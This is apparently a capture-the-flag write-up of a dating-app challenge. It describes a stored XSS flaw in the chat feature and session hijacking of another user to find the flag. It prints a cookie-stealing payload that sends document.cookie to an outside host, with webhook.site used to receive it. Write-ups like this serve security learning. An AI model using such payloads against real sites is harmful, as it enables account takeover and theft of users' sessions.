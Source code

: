 This challenge doesn't provide the source code, which I find more enjoyable.

Initially, the application only allows users to log in or sign up. After logging in, we can "like" other users, similar to a dating app.

In our matches, we find Renata, with whom we can start a chat. The chat functionality is vulnerable to Cross-Site Scripting (XSS) because it lacks proper input sanitization.

![](./images/image.png)

I used the payload `<img src=x onerror=fetch(''+document.cookie)>` to steal Renata's cookie. I used [webhook.site](http://webhook.site) to receive the request containing the cookie.

![](./images/image(1).png)

Once I obtained Renata's cookie, I replaced my session cookie with hers. This allowed me to impersonate her, and I found the flag in her chat with Dimitris.

![](./images/image(2).png)
